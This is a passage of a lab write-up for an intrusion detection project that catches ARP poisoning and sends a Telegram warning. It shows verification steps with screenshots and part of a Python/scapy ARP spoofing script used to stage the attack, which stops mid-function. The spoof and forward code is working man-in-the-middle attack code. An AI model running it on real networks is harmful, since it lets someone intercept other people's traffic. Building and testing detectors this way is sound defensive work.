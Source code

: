         ![Screenshot 2024-05-30 at 21.17.24.png](IDS%20-%20Detecting%20ARP%20poisoning%20attack,%20send%20warning%20eea0180004ee4e5d9aebb434f8d5d81f/Screenshot_2024-05-30_at_21.17.24.png)
        
    - Start MITM Attack: ARP Poisoning
        
        ![Screenshot 2024-05-30 at 21.15.07.png](IDS%20-%20Detecting%20ARP%20poisoning%20attack,%20send%20warning%20eea0180004ee4e5d9aebb434f8d5d81f/Screenshot_2024-05-30_at_21.15.07.png)
        

## Step 3: Verify ARP Spoofing Detection

- Check the output for ARP poisoning detection:
- Ensure the ARP spoofing detection alert is printed.
    
    ![Screenshot 2024-05-30 at 21.14.57.png](IDS%20-%20Detecting%20ARP%20poisoning%20attack,%20send%20warning%20eea0180004ee4e5d9aebb434f8d5d81f/Screenshot_2024-05-30_at_21.14.57.png)
    

- Verify that a warning message is sent through Telegram
    
    ![Screenshot 2024-05-30 at 21.15.18.png](IDS%20-%20Detecting%20ARP%20poisoning%20attack,%20send%20warning%20eea0180004ee4e5d9aebb434f8d5d81f/1289f3d8-798d-47f5-9037-c40548841751.png)
    
- Use Wireshark to capture packets and confirm that a duplicate IP address is detected.
    
    ![Screenshot 2024-05-30 at 21.23.33.png](IDS%20-%20Detecting%20ARP%20poisoning%20attack,%20send%20warning%20eea0180004ee4e5d9aebb434f8d5d81f/Screenshot_2024-05-30_at_21.23.33.png)
    

```python
#!/usr/bin/env python3
from scapy.all import *
from scapy.layers.l2 import Ether, ARP
import os
import sys
import time

packet_count = 0  # Global variable to count packets

def get_mac(ip):
    # Send ARP request to get the MAC address of the IP
    ans, unans = arping(ip, verbose=False)
    for snt, rcv in ans:
        return rcv[Ether].src
    return None

def spoof(target_ip, spoof_ip, target_mac):
    global packet_count
    # Create ARP response packet
    arp_response = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    ether = Ether(dst=target_mac)
    packet = ether / arp_response
    sendp(packet, verbose=False)
    packet_count += 1
    print(f"[*] Sent ARP spoof packet {packet_count} to {target_ip}")

def restore(target_ip, source_ip, target_mac, source_mac):
    global packet_count
    # Create ARP response packet to restore the ARP table
    arp_response = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=source_ip, hwsrc=source_mac)
    ether = Ether(dst=target_mac)
    packet = ether / arp_response
    sendp(packet, count=4, verbose=False)
    packet_count += 4  # We are sending 4 packets in restore function
    print(f"[*] Sent ARP restore packets {packet_count - 3}-{packet_count} to {target_ip}")

def forward_packet(packet):
    if packet.haslayer(IP):
        # Check if the packet is from the target to the gateway
        if packet[IP].src == target_ip and packet[IP].dst == gateway_ip:
```